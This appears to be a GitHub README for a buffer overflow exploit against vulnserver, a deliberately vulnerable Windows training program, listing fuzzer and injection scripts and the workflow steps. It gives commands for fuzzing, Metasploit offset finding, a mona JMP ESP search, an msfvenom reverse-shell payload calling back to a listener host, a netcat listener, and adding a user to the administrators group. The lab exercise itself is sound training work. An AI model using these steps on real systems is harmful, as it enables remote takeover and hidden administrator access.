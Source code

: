 Windows vulnserver Buffer Overflow!!
-------------------
    1. fuzzer.py
    2. fuzzer_eip.py
    3. injection.py
    4. injection_badchar.py
    5. injection_add.py
    6. injection_final.py

Processes
-------------------
    - Reverse Shell
    - Fuzzing        =>  generic_send_tcp 192.168.4.112 9999 fuzz.spk 0 0
    - Pattern Create =>  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5900
    - Pattern Offset =>   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5900 -q 386f4337
    - Opcode Finder  =>  /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    - Mona Find Vuln. => !mona find -s "\xff\xe4" -m essfunc.dll # JMP ESP için
    - Vulnerable Add => 0x625011AF
    - Generate Payload =>  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.145 LPORT=4444 EXITFUNC=thread -f c -a x86 –platform windows -b “\x00”
    - nc -nvlp 4444
    - net user "USERNAME" "Password" /add
    - net localgroup "administrators" "USERNAME"  /add
